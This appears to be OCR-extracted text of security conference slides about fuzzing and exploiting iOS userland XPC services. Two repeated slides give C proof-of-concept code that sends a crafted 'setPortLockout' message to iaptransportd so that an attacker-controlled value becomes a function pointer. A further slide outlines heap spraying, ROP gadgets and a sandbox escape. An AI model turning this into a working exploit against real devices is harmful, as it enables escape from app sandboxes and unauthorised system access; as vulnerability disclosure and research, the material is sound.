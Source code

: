 padding = &buf->attribute[ntohl(buf->n_attribute)];

n_padding = ntohl(buf->n_padding);

A Surprise in com.apple.iaptransportd.xpc
v29 is retrieved from an XPC message
/System/Library/PrivateFrameworks/IAP.framework/Support/iaptransportd
xpc_connection_t client = xpc_connection_create_mach_service("com.apple.iaptransportd.xpc", NULL, 0); xpc_connection_set_event_handler(client, ^void(xpc_object_t response) { }); xpc_connection_resume(client); xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0); xpc_dictionary_set_string(dict, "requestType", "setPortLockout");
//requestType must be setPortLockout
xpc_dictionary_set_uint64(dict, "portID", 0xAAAAAAAA);
//*(*portID+32) will be the function pointer
xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, dict);

A Surprise in com.apple.iaptransportd.xpc
*(*v29+32) is used as a function pointer
/System/Library/PrivateFrameworks/IAP.framework/Support/iaptransportd
xpc_connection_t client = xpc_connection_create_mach_service("com.apple.iaptransportd.xpc", NULL, 0); xpc_connection_set_event_handler(client, ^void(xpc_object_t response) { }); xpc_connection_resume(client); xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0); xpc_dictionary_set_string(dict, "requestType", "setPortLockout");
//requestType must be setPortLockout
xpc_dictionary_set_uint64(dict, "portID", 0xAAAAAAAA);
//*(*portID+32) will be the function pointer
xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, dict);

How to Exploit it
 How to control *(*portID +32)
 Heap Spraying
 Where to find ROP gadgets?
 dyld_shared_cache is shared among all processes, and has the same layout.
 Effects
 Exploitable by any container app  Bypass the container sandbox to access the system

Agenda
 iOS Security Background  Review of Attack Surfaces  Fuzz More IOKit and MIG System  Exploit Userland XPC Services  Conclusion

Conclusion
 The combination of previous techniques and new improvements may lead to new findings
 Apple puts more efforts on improving the whole security mechanisms rather than fixing individual bugs
 Reviewing all old code is necessary to Apple

Thanks for your attention Q&A

